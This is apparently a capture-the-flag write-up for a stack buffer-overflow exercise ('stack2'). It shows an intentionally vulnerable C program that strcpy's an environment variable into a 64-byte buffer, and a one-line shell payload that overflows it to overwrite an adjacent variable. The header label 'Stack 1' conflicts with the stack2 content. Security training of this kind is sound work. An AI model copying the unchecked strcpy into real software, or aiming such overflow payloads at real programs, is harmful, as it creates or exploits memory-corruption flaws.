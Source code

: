 Stack 1

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

<p> 
This task also very similar to stack0 and stack1. <br>
In this task we just should to change the env variable
</p>

```shell
GREENIE=$(python -c "print('A' * 64 + '0a0d0a0d'.decode('hex'))") ./stack2
```
